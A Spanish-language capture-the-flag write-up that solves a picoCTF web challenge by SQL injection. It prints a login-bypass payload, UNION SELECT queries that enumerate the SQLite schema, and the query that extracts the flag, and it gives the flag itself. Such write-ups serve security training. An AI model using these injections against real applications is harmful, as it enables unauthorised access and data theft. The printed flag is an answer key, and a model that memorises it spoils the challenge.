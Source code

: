 #Software #Hacking #WebExplotation #Web #Internet 
# Definición
Can you find the flag on this website.

Try to find the flag [here](http://saturn.picoctf.net:56592/).
# Hints
- SQLiLite
# Solución
Utilizamos [[Inyección SQL]] para entrar:
username: juan' or 1 = 1;
password: juan' or 1 = 1;

Utilizamos [[Inyección SQL#Payloads en Inyección SQL (SQLi)]]:
' union select 1,2,3;
>Tres porque tenemos tres campos

Vemos que versión estamos trabajando:
' union select sqlite_version(),2,3;

Vemos la estructura de las demás tablas:
' union select sql,2,3 from sqlite_master;
Y me regresó esto -sospechamos que se encuentre en more_table, porque dice flag-.

| Tabla                                | Columnas                                                      |
|--------------------------------------|--------------------------------------------------------------|
| `hints`                              | `id INTEGER NOT NULL PRIMARY KEY`, `info TEXT`              |
| `more_table`                         | `id INTEGER NOT NULL PRIMARY KEY`, `flag TEXT`              |
| `offices`                            | `id INTEGER NOT NULL PRIMARY KEY`, `city TEXT`, `address TEXT`, `phone TEXT` |
| `users`                              | `name TEXT NOT NULL PRIMARY KEY`, `password TEXT`, `id INTEGER` |
Entonces seleccionamos esa tabla
' union select id,flag,3 from more_table;

Y nos regresa esto:
|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}|
## Respuesta
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}